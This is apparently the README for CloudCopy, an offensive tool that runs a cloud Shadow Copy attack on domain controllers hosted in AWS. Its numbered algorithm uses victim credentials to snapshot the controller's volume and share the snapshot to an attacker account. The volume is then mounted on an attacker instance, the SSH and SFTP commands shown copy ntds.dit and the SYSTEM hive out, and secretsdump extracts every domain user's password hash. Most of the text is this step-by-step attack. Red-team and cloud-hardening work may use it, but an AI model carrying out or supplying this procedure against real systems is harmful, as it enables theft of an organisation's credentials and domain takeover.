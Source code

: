 # CloudCopy
This tool implements a cloud version of the Shadow Copy attack against domain controllers running in AWS. Any AWS user possessing the EC2:CreateSnapshot permission can steal the hashes of all domain users by creating a snapshot of the Domain Controller mounting it to an instance they control and exporting the NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump project.

# Demos

CloudCopy in Profile mode running against an AWS Domain Controller with an unencrypted Volume
![](demos/unencrypted.gif)

CloudCopy in Manual mode running against an AWS Domain Controller with an encrypted Volume
![](demos/encrypted.gif)

# Detailed CloudCopy Algorithm
1.  Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2.  Run "Describe-Instances" and show in list for attacker to select
3.  Run "Create-Snapshot" on volume of selected instance
4.  Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account
5.  Load AWS CLI with Attacker Credentials
6.  Run "run-instance" command to create new linux ec2 with our stolen snapshot
7.  Ssh run "sudo mkdir /windows"
8.  Ssh run "sudo mount /dev/xvdf1 /windows/"
9.  Ssh run "sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"
10. Ssh run "sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"
11. Ssh run "sudo chown ec2-user:ec2-user /home/ec2-user/*"
12. SFTP get "/home/ec2-user/SYSTEM ./SYSTEM"
13. SFTP get "/home/ec2-user/ntds.dit ./ntds.dit"
14. locally run "secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets #expects secretsdump to be on path
